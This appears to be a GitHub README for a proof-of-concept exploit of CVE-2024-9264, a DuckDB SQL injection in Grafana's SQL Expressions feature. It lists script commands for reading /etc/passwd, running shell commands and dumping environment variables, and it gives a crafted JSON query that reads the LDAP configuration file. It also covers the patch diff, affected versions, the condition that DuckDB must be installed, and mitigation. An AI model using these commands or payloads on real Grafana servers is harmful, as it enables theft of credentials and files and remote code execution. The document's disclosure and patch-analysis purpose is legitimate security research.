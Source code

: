 # CVE-2024-9264
## Grafana Post-Auth DuckDB SQL Injection (RCE, File Read)

### Proof of Concept (PoC)

This PoC demonstrates the exploitation of CVE-2024-9264 using an authenticated user to perform a DuckDB SQL query and read an arbitrary file on the filesystem or execute arbitrary code remotely.

**Arbitrary code can only be executed on Grafana v11.0.0.**

Files can be read in all vulnerable versions.

**Setup:**
Install the required dependencies via:
```bash
pip install -r requirements.txt
```

## Usage
**File Read (Universal):**
```bash
python3 CVE-2024-9264.py -u user -p pass  -f /etc/passwd  http://localhost:3000
```

**Command execution (v11.0.0 only)**
```bash
python3 CVE-2024-9264.py -u user -p user -c <shell-cmd> http://localhost:3000
```

You can also execute arbitrary DuckDB queries, such as calling `getenv` to retrieve environment variables:
```bash
python3 CVE-2024-9264.py -u user -p pass -q "SELECT getenv('PATH')" http://localhost:3000
```

The list of utility DuckDB functions that can be exploited can be found [here](https://duckdb.org/docs/sql/functions/utility).

### Vulnerability Overview

[CVE-2024-9264](https://grafana.com/security/security-advisories/cve-2024-9264) is a DuckDB SQL injection vulnerability in Grafana's experimental SQL Expressions feature. Any authenticated user can execute arbitrary DuckDB SQL queries through modified expressions in Grafana dashboards.

**Affected Versions:**
- Grafana OSS and Enterprise versions 11.0.0 - 11.0.5, 11.1.0 - 11.1.6, and 11.2.0 - 11.2.1.

**Patched Versions:**
- 11.0.5+security-01 and higher

### Finding the Patch

Grafana released special versions to fix this vulnerability. To analyze the patch, the following commands can be used to compare the changes:

```bash
git checkout v11.0.5+security-01
git diff 0421a8911cfc05a46c516fd9d033a51e52e51afe 70316b3e1418c9054017047e63c1c96abb26f495
```

This reveals that the SQL Expressions feature was simply removed from the vulnerable versions.

```diff
+++ b/pkg/expr/sql/db.go
@@ -0,0 +1,26 @@
+package sql
+
+import (
+       "errors"
+
+       "github.com/grafana/grafana-plugin-sdk-go/data"
+)
+
+type DB struct {
+}
+
+func (db *DB) TablesList(rawSQL string) ([]string, error) {
+       return nil, errors.New("not implemented")
+}
+
+func (db *DB) RunCommands(commands []string) (string, error) {
+       return "", errors.New("not implemented")
+}
+
+func (db *DB) QueryFramesInto(name string, query string, frames []*data.Frame, f *data.Frame) error {
+       return errors.New("not implemented")
+}
+
+func NewInMemoryDB() *DB {
+       return &DB{}
+}
```

```diff
@@ -85,7 +84,7 @@ func (gr *SQLCommand) Execute(ctx context.Context, now time.Time, vars mathexp.V

        rsp := mathexp.Results{}

-       duckDB := duck.NewInMemoryDB()
+       duckDB := sql.NewInMemoryDB()
        var frame = &data.Frame{}
        err := duckDB.QueryFramesInto(gr.refID, gr.query, allFrames, frame);
        if err != nil {
```

The patch removes SQL Expressions entirely, preventing the possibility of exploitation.

### Exploiting the Vulnerability

1. **Launch Grafana**:
   Run Grafana with version 11.0.5:
   ```bash
   docker run --name=grafana -p 3000:3000 grafana/grafana-enterprise:11.0.5
   ```

2. **Modify an Expression**:
   Create a dashboard with an expression like "Math", intercept the request with Burp, and modify the `datasource` type from `math` to `sql`.

   A HTTP request will be sent to `/api/ds/query?ds_type=__expr__&expression=true&requestId=Q101`.

   Below is the minimal JSON required to perform a DuckDB SQL query to read an arbitrary file like `./conf/ldap.toml`:
   ```json
   {
     "queries": [
       {
         "refId": "B",
         "datasource": {
           "type": "__expr__",
           "uid": "__expr__",
           "name": "Expression"
         },
         "type": "sql",
         "hide": false,
         "expression": "SELECT content FROM read_blob(\"./conf/ldap.toml\")",
         "window": ""
       }
     ],
     "from": "1729313027261",
     "to": "1729334627261"
   }
   ```
No dashboard needs to present for the actual exploitation, it's just an easy way to find the HTTP request to execute a query.

### Likelihood of Exploitability

It's important to note that while this vulnerability is critical, its exploitability depends on whether the DuckDB binary is installed on the Grafana server. **By default, Grafana does not ship with DuckDB installed**, and there is no option to install it directly from the Grafana interface.

**For this vulnerability to be exploitable, an administrator must have manually installed DuckDB and added it to the Grafana server's `$PATH`.** If DuckDB is not present, the SQL injection vulnerability cannot be leveraged, significantly reducing the likelihood of successful exploitation in default installations.

### Mitigation

Update Grafana to patched versions, and ensure that the DuckDB binary is not present in the `$PATH` if patching is delayed.

### Credits

This PoC uses the [ten](https://github.com/cfreal/ten) framework developed by [cfreal](https://github.com/cfreal).
